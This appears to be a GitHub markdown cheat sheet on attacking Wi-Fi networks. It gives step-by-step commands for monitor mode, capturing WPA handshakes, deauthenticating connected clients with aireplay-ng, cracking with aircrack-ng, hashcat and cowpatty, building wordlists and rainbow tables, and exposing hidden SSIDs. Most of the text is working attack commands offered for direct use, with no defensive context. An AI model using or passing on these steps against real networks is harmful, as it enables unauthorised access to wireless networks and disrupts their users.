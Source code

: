 # FootPrinting

## Tables des matière
 - [Enabling Monitor mode on your network card](#Enabling-Monitor-mode-on-your-network-card)
 - [Capturing handshake with airodump](#Capturing-handshake-with-airodump)
 - [Cracking with Aircrack](#Cracking-with-Aircrack)
 - [Cracking with Hashcat](#Cracking-with-Hashcat)
 - [Cracking with cowpatty](#Cracking-with-cowpatty)
 - [Creating wordlists](#Creating-wordlists)
 - [Rainbow table](#Rainbow-table)
 - [Fluxion](#Fluxion)
 - [Wifite](#Wifite)
 - [Finding and cracking hidden network](#Finding-and-cracking-hidden-network)
 
 

### Enabling Monitor mode on your network card
	
Check your mode tiping `iwconfig`. Put your network card down. Type `airmon-ng check <network_card_name>`. Type `airmon-ng check kill <network_card_name>`. 

Type `iwconfig <network_card_name> mode monitor`. Put your network card up.
	 
### Capturing handshake with airodump

List all of the netwworks around you : `airodump-ng <network_card_name>`

List all of the devices connected to a network : `airodump-ng -c <network_channel> --bssid <network_bssid> -w <name_file_you_want_to_create> <network_card_name>`

In the same time you perform this command, type in another terminal : `aireplay-ng -0 0 -a <bssid> <network_card_name>`

Press `^C` and all the devices will be reconnected to the access point and you see in the terminal which you run the airodump command that the WPA handshake have been found.

4 files have been created and you can open the .cap in wireshark. You can filtered by `eapol` in order to see the packets link to the reconnection.
	
### Cracking with Aircrack 

**Use CPU power** 

You can brute-forcing th password by tiping : `aircrack-ng -w <wordlist> <file.cap>`

### Cracking with Hashcat

**Use GPU power** 

In order to crack with Hashcat you must convert the .cap to a hashcat capture file --> `https://hashcat.net/cap2hccapx/`

Cracking command : `hashcat -a <perform_level(2?)> -m <hashtype(2500?for_the_wpa2)> <file.hccapx> <wordlist>`

### Cracking with cowpatty

`cowpatty -f <wordlist> -r <file.pcap> -s <name_access_point>`

### Creating wordlists

**crunch** - very useful, generate wordlist with (characters/words) in relation to the entries you made

**cupp** (github) - generate worlds with (characters/words) in relation to the answers of their questions

### Rainbow table 

These are useful for brute-force a hash code.

In order to generate a rainbow table --> `rtgen` --> see help for your use.

A .rt file is created. Don't forget to sort the rainbow table : `rsort`

You can retrieve a word by its hash hash -->` rcrack . -h <hash>` 

--> For WPA-WPA2 carcking :
	
	-create file with the name of the essid of your access point (SFR_0F30?)

  	-airolib-ng <rainbow_table_name> --import essid <essid_name_file>
  
  	-airolib-ng <rainbow_table_name> --import passwd <wordlist>
		
  	-airolib-ng <rainbow_table_name> --clean all
		
  	-airolib-ng <rainbow_table_name> --batch

  	-airolib-ng <rainbow_table_name> --verify all
		
 	-aircrack-ng -r <rainbow_table_name> <file.cap>
	
### Fluxion

Tool that automate all the steps.

### Wifite

Tool that automate all the steps and more <-- very very useful

Finding and cracking hidden network :
	
List all of the netwworks around you : `airodump-ng <network_card_name>`

If you see an access point without name but with `<length: 0>`, it is a hidden network 
	
List all of the devices connected to a network : `airodump-ng  --bssid <network_bssid> --channel <channel_network> <network_card_name>`
	
In the same time you perform this command, type in another terminal : `aireplay-ng --deauth <number_of_deauthtificated_packets> -a <bssid> -c <station(mac_adress_of_the_client)> <network_card_name>`
	
The essid appears in the terminal you run the airodump command and you can connect to the hidden network
